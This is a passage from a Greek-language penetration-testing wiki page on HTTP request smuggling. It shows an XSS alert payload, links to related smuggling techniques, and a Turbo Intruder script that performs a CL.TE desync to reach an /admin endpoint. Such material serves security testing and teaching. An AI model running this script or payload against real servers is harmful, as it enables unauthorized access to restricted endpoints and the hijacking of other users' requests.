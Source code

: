 ```
<script>alert(“arbitrary response”)</script>
```
### Οπλοποιώντας το HTTP Request Smuggling με την Ασυμμετρία της Απάντησης HTTP

Έχετε βρει μια ευπάθεια HTTP Request Smuggling και δεν ξέρετε πώς να την εκμεταλλευτείτε. Δοκιμάστε αυτήν τη μέθοδο εκμετάλλευσης:

{% content-ref url="../http-response-smuggling-desync.md" %}
[http-response-smuggling-desync.md](../http-response-smuggling-desync.md)
{% endcontent-ref %}

### Άλλες Τεχνικές HTTP Request Smuggling

* Browser HTTP Request Smuggling (Πλευρά Πελάτη)

{% content-ref url="browser-http-request-smuggling.md" %}
[browser-http-request-smuggling.md](browser-http-request-smuggling.md)
{% endcontent-ref %}

* Εκμετάλλευση Αιτημάτων σε Υποβαθμίσεις HTTP/2

{% content-ref url="request-smuggling-in-http-2-downgrades.md" %}
[request-smuggling-in-http-2-downgrades.md](request-smuggling-in-http-2-downgrades.md)
{% endcontent-ref %}

## Σενάρια Turbo Intruder

### CL.TE

Από [https://hipotermia.pw/bb/http-desync-idor](https://hipotermia.pw/bb/http-desync-idor)
```python
def queueRequests(target, wordlists):

engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Transfer-Encoding: chunked
Host: xxx.com
Content-Length: 35
Foo: bar

0

GET /admin7 HTTP/1.1
X-Foo: k'''

engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
```